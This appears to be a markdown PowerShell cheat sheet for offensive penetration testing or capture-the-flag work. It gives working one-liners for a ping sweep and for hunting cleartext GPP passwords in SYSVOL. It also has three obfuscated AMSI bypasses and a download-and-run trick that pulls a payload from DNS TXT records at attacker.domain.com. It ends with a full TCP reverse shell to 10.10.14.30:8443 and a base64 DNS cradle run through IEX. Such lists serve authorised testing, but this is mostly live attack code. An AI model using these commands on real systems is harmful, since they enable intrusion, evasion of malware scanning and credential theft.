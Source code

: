 - Ping Sweep
	- `1..254 | % {"192.168.1.$($_): $(Test-Connection -count 1 -comp 192.168.1.$($_) -quiet)"}`
- Get ACLs of object (such as files and directories)
	- `Get-Acl -Path C:\\ | Format-List`
- Mount remote share
	- `New-PSDrive -name cthulhufhtagn -PSProvider "FileSystem" -Root "\\<attackerip>\cthulhufhtagn"`
- Searching directories recursively for cleartext credentials in files (GPP passwords for example)
	- `pushd \\example.com\sysvol`
	- `gci * -Include *.xml -Recurse -EA SilentlyContinue | select-string cpassword`
	- `popd`
- Find services with unquoted paths
	- `Get-CIMInstance -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name`
- Download and execute payload without IEX or Invoke-WebRequest (a few options)
	- `powershell . (nslookup -q=txt attacker.domain.com )[-1]`
	- `powershell . (Resolve-DnsName attacker.domain.com -Type txt).Strings`
- AMSI Bypass
	```Powershell
	$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
	$ABSD = 'AmsiS'+'canBuffer';
	$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
	[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
	```
	```Powershell
	[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
	```
	```Powershell 
	[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
	```

- Search for filenames
	- `gci -Recurse -Force -Path C:\Users -Include "flag" -ErrorAction SilentlyContinue`

- Reverse shell one-liner
```PowerShell
$cthulhu = New-Object System.Net.Sockets.TCPClient('10.10.14.30',8443);$tntcl = $cthulhu.GetStream();[byte[]]$cult = 0..65535|%{0};while(($i = $tntcl.Read($cult, 0, $cult.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($cult,0, $i);$ex = (iex $d 2>&1 | Out-String );$ex2  = $ex + 'CF ' + (pwd).Path + '> ';$shog = ([text.encoding]::ASCII).GetBytes($ex2);$tntcl.Write($shog,0,$shog.Length);$tntcl.Flush()};
```

- DNS cradle
```PowerShell
$m= (-Join (Resolve-DnsName -Type txt pwn.domain.com).Strings);
IEX (([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($m))))
```
